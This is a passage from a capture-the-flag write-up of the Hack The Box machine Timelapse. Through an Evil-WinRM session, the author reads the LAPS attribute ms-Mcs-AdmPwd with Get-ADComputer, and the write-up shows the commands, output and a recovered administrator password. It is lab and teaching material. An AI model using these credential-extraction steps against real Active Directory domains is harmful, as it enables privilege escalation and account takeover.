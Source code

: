 After some googling I tried to use the ```Get-AdmPassword``` using the computer name of the host (which you can get using the ```hostname``` command) but it didn't worked: 
```
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-AdmPwdPassword -ComputerName dc01}
The term 'Get-AdmPwdPassword' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.

    + CategoryInfo          : ObjectNotFound: (Get-AdmPwdPassword:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```
After more googling, I saw that if you have permission to read the LAPS, you can see the password by checking the Computer attributes because LAPS adds a new attribute named ```ms-Mcs-AdmPwd``` with the password. After running this command and checking the output, I was able to find an admin password (3i92{K87u45/SPb&63OUm9nL):
```shell
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -LDAPFilter "(name=*DC01*)" -Properties *}


PSComputerName                       : localhost
RunspaceId                           : 316249f0-9ceb-44c6-9e35-7d1bd3f63c3f
AccountExpirationDate                :
accountExpires                       : 9223372036854775807
AccountLockoutTime                   :
AccountNotDelegated                  : False
AllowReversiblePasswordEncryption    : False
AuthenticationPolicy                 : {}
AuthenticationPolicySilo             : {}
BadLogonCount                        : 0
badPasswordTime                      : 0
badPwdCount                          : 0
CannotChangePassword                 : False
CanonicalName                        : timelapse.htb/Domain Controllers/DC01
Certificates                         : {}
CN                                   : DC01
codePage                             : 0
CompoundIdentitySupported            : {False}
countryCode                          : 0
Created                              : 10/23/2021 11:40:55 AM
createTimeStamp                      : 10/23/2021 11:40:55 AM
Deleted                              :
Description                          :
DisplayName                          :
DistinguishedName                    : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName                          : dc01.timelapse.htb
DoesNotRequirePreAuth                : False
dSCorePropagationData                : {10/25/2021 9:03:33 AM, 10/25/2021 9:03:33 AM, 10/23/2021 11:40:55 AM, 1/1/1601 10:16:33 AM}
Enabled                              : True
HomedirRequired                      : False
HomePage                             :
instanceType                         : 4
IPv4Address                          : 10.10.11.152
IPv6Address                          : dead:beef::20d
isCriticalSystemObject               : True
isDeleted                            :
KerberosEncryptionType               : {RC4, AES128, AES256}
LastBadPasswordAttempt               :
LastKnownParent                      :
lastLogoff                           : 0
```